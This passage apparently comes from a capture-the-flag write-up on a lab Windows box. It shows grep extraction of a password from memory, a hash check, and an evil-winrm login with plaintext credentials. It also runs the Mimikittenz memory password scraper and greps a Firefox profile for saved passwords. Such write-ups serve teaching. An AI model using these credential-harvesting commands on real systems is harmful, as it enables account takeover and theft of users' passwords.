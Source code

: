 The options on `grep` are:
- `-a` - Process a binary file as if it were text.
- `-o` - Print only the matched (non-empty) parts of a matching line
- `-E` - Interpret PATTERNS as extended regular expressions

I’ll use a regex where I look for a basic email address as the `login_username`, and a 1-50 character password.

I’ve got a password there. I can check, and it does match the hash from the source code:

```

root@kali# echo -n '4dD!5}x/re8]FBuZ' | sha256sum 
91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040  -

```

#### MimiKittenz

[Mimikittenz](https://github.com/putterpanda/mimikittenz) is a tool that will look into the memory of user space processes and look for passwords. By default, it checks IE, Chrome, and Firefox for POST requests that match common webmail, social media, and other sites. I can drop it in the scripts directory for my `evil-winrm` connection, then read it into my session, and run it. But it won’t find anything:

```

root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\chase -s ~/pshs/ -p 'Q4)sJu\Y8qz*A3?d'                                                                                                                           

Info: Starting Evil-WinRM shell v1.6

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents> Invoke-mimikittenz.ps1
*Evil-WinRM* PS C:\Users\Chase\Documents> menu

   ___ __ __  ____  _
  /  _]  |  ||    || |
 /  [_|  |  | |  | | |
|    _]  |  | |  | | |___
|   [_|  :  | |  | |     |
|     |\   /  |  | |     |
|_____| \_/  |____||_____|

 __    __  ____  ____   ____   ___ ___
|  |__|  ||    ||    \ |    \ |   |   |
|  |  |  | |  | |  _  ||  D  )| _   _ |
|  |  |  | |  | |  |  ||    / |  \_/  |
|  `  '  | |  | |  |  ||    \ |   |   |
 \      /  |  | |  |  ||  .  \|   |   |
  \_/\_/  |____||__|__||__|\_||___|___|

                           By: CyberVaca@HackPlayers

[+] Invoke-Binary
[+] Invoke-mimikittenz
[+] l04d3r-LoadDll
*Evil-WinRM* PS C:\Users\Chase\Documents> Invoke-mimikittenz
───▐▀▄──────▄▀▌───▄▄▄▄▄▄▄─────────────
───▌▒▒▀▄▄▄▄▀▒▒▐▄▀▀▒██▒██▒▀▀▄──────────
──▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄────────
──▌▒▒▒▒▒▒▒▒▒▒▒▒▒▄▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄──────
▀█▒▒█▌▒▒█▒▒▐█▒▒▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌─────
▀▌▒▒▒▒▒▀▒▀▒▒▒▒▒▀▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐───▄▄
▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▌▄█▒█
```

[10.10.10.149]: PS C:\Users\Chase\Documents> whoami
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles> dir
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles\77nc64t5.default\sessionstore-backups> Get-ChildItem -path . -recurse -file | select-string password